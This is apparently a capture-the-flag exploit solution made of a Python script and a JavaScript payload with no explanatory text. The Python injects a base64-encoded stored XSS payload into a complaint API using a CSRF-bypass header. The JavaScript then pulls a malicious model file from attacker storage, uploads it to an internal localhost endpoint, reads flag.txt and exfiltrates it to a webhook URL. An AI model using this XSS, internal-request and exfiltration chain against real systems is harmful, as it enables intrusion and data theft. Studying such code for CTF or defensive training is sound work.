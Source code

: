 
`pwn.py`:
```python
import requests
import base64

host = "http://<CHALL_URL>"
webhook = "https://<WEBHOOK_URL>"


def add_complaint(payload):
    r = requests.post(
        f"{host}/api/complaint",
        headers={"X-SPACE-NO-CSRF": "1", "Content-Type": "application/json"},
        json={"description": "test", "image_data": "test", "prediction": f"{payload}"},
    )
    return r.text


js = open("pwn.js", "r+").read().replace("WEBHOOK_URL", webhook)
encoded = base64.encodebytes(js.encode()).decode().strip().replace("\n", "")
p = f'<img src=x onerror=eval(atob("{encoded}"))>'
print(p)
add_complaint(p)
```

`pwn.js`:
```javascript
const step1 = async () => {
	let r = await fetch("<YOUR_STORAGE>/pwn.h5");
	let b = await r.blob();
	console.log(b);
	// now we upload the model internally with the csrf header '1'
	let fd = new FormData();
	fd.append("file", b, "pwn.h5");
	r = await fetch("http://127.0.0.1:1337/api/internal/model", {
		headers: {
			"X-SPACE-NO-CSRF": "1",
			"Access-Control-Allow-Origin": "*",
		},
		method: "POST",
		body: fd,
	});
};

const step2 = async () => {
	r = await fetch("http://127.0.0.1:1337/api/internal/models/flag.txt", {
		headers: {
			"X-SPACE-NO-CSRF": "1",
		},
		method: "GET",
	});
	return await r.text();
};

const main = async () => {
	// 1. upload the model
	await step1();

	// 2. the flag should be copied when the model is tested
	const flag = await step2();
	navigator.sendBeacon("WEBHOOK_URL", flag);
};

main();
```